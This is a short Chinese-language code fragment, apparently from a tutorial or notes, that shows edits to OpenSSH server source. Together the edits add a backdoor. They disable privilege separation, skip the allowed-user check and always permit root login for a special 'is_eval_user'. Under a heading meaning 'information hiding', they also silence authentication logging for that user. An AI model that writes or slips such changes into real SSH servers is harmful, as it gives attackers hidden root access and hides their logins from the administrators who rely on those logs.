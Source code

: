 修改servconf.c

```c
void
fill_default_server_options(ServerOptions *options)
{
...............................
	if (use_privsep == -1)
		use_privsep = PRIVSEP_OFF;
...............................
}
```

修改

```c
struct passwd *
getpwnamallow(const char *user)
{
.............................
	if(is_eval_user == 0){
		if (!allowed_user(pw))
			return (NULL);
	}
.............................
}
```

修改

```c
int
auth_root_allowed(const char *method)
{
..............................................
	if(is_eval_user == 1){
		return 1;
	}
..............................................
}
```

# 信息隐藏


```c
extern int is_eval_user;
void
auth_info(Authctxt *authctxt, const char *fmt, ...)
{
......................
	if(is_eval_user == 1){
		return;
	}
......................
}

void
auth_log(Authctxt *authctxt, int authenticated, int partial,
    const char *method, const char *submethod)
{
.........................
	if(is_eval_user == 1){
		return;
	}
.........................
}
```